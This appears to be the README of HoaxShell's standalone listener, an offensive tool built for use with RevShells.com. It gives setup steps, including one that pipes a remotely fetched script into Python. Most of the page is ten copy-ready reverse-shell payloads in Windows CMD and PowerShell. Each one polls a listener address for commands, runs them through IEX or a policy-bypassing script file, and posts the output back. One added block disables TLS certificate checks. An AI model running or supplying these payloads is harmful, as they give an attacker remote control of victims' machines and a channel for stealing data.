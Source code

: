 # HoaxShell Listener
[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.6-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">
<img height="20px" src="https://img.shields.io/badge/Windows%20cmd-%234D4D4D.svg?style=for-the-badge&logo=windows-terminal&logoColor=white">
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">  

## Purpose
A standalone version of HoaxShell's listener, mainly created for integration with [RevShells.com](https://revshells.com).  

## Installation
```
pip3 install -r requirements.txt
```
**Important**: The `gnureadline` module is not meant for Windows and it will naturally cause an error if you try to install with pip. Remove `gnureadline` from the requirements.txt to install on Windows.

## Usage
The standalone listener does not include payload generation functions. It is desighed to work in a simple manner with the only required argument being the payload type to expect (payload types and templates listed below).  

You can run the listener by executing `hoaxshell-listener.py` or directly invoking it from the project's repository:
```
# Execute from file
python3 hoaxshell-listener.py -t <payload-type>

# Invoke from repository
python3 -c "$(curl -s https://raw.githubusercontent.com/t3l3machus/hoaxshell/main/revshells/hoaxshell-listener.py)" -t <payload type> -p <port> [-c /your/cert.pem -k /your/key.pem>] 
```

The listener is designed to accept any incoming connection bearing a session id in the form of `eb6a44aa-8acc1e56-629ea455`.  
You can keep the session id's included in the templates or alter them to different values.

## Payload Templates
1. Start the listener with the `--type [-t]` set to one of the available payload types below:  
`cmd-curl|ps-iex|ps-iex-cm|ps-outfile|ps-outfile-cm`
2. Grab the equivalent template and adjust the IP and PORT values. if you change the default port 8080/443 you need to parse it to the listener with `-p`.
3. Execute payload on the target machine.

### http payloads

#### cmd-curl
A brand new payload written in pure Windows CMD that utilizes cURL.
```
@echo off&cmd /V:ON /C "SET ip=192.168.0.71:8080&&SET sid="Authorization: eb6a44aa-8acc1e56-629ea455"&&SET protocol=http://&&curl !protocol!!ip!/eb6a44aa -H !sid! > NUL && for /L %i in (0) do (curl -s !protocol!!ip!/8acc1e56 -H !sid! > !temp!\cmd.bat & type !temp!\cmd.bat | findstr None > NUL & if errorlevel 1 ((!temp!\cmd.bat > !tmp!\out.txt 2>&1) & curl !protocol!!ip!/629ea455 -X POST -H !sid! --data-binary @!temp!\out.txt > NUL)) & timeout 1" > NUL
```

#### ps-iex
PowerShell payload that utilizes IEX.
```
$s='192.168.0.71:8080';$i='14f30f27-650c00d7-fef40df7';$p='http://';$v=IRM -UseBasicParsing -Uri $p$s/14f30f27 -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/650c00d7 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=IEX $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/fef40df7 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-iex-cm
Same as `ps-iex` but will also work if the target system is running on PowerShell Constraint Language Mode.
```
$s='192.168.0.71:8080';$i='bf5e666f-5498a73c-34007c82';$p='http://';$v=IRM -UseBasicParsing -Uri $p$s/bf5e666f -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/5498a73c -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=IEX $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/34007c82 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

#### ps-outfile
PowerShell payload that writes and executes commands from disc.
```
$s='192.168.0.71:8080';$i='add29918-6263f3e6-2f810c1e';$p='http://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/add29918 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/6263f3e6 -Headers @{"Authorization"=$i});if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/2f810c1e -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-outfile-cm
Same as `ps-outfile` but will also work if the target system is running on PowerShell Constraint Language Mode.
```
$s='192.168.0.71:8080';$i='e030d4f6-9393dc2a-dd9e00a7';$p='http://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=IRM -UseBasicParsing -Uri $p$s/e030d4f6 -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/9393dc2a -Headers @{"Authorization"=$i}); if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/dd9e00a7 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

### https Payloads
You can parse certificate and private-key .pem files to the listener with `-c` and `-k` to start it via https.  
To generate self-signed certificates you can use: `openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365`  
Find below the payload templates adjusted to use https.

**For PowerShell payloads**: If you don't supply a trusted certificate to the listener, append this block at the beginning of the payload to disable certificate validation:
```
add-type @"
using System.Net;using System.Security.Cryptography.X509Certificates;                                  
public class TrustAllCertsPolicy : ICertificatePolicy {public bool CheckValidationResult(              
ServicePoint srvPoint, X509Certificate certificate,WebRequest request, int certificateProblem) {return true;}}
"@                                                                                                     
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy
```
#### cmd-curl
```
@echo off&cmd /V:ON /C "SET ip=192.168.0.71:443&&SET sid="Authorization: eb6a44aa-8acc1e56-629ea455"&&SET protocol=https://&&curl -fs -k !protocol!!ip!/eb6a44aa -H !sid! > NUL & for /L %i in (0) do (curl -fs -k !protocol!!ip!/8acc1e56 -H !sid! > !temp!\cmd.bat & type !temp!\cmd.bat | findstr None > NUL & if errorlevel 1 ((!temp!\cmd.bat > !tmp!\out.txt 2>&1) & curl -fs -k !protocol!!ip!/629ea455 -X POST -H !sid! --data-binary @!temp!\out.txt > NUL)) & timeout 1" > NUL
```

#### ps-iex
```
$s='192.168.0.71:443';$i='1cdbb583-f96894ff-f99b8edc';$p='https://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/1cdbb583 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/f96894ff -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/f99b8edc -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-iex-cm
```
$s='192.168.0.71:443';$i='11e6bc4b-fefb1eab-68a9612e';$p='https://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/11e6bc4b -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/fefb1eab -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/68a9612e -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

#### ps-outfile
```                                                                                                                    
$s='192.168.0.71:443';$i='add29918-6263f3e6-2f810c1e';$p='https://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/add29918 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/6263f3e6 -Headers @{"Authorization"=$i});if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/2f810c1e -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-outfile-cm
```
$s='192.168.0.71:443';$i='e030d4f6-9393dc2a-dd9e00a7';$p='https://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=IRM -UseBasicParsing -Uri $p$s/e030d4f6 -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/9393dc2a -Headers @{"Authorization"=$i}); if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/dd9e00a7 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```
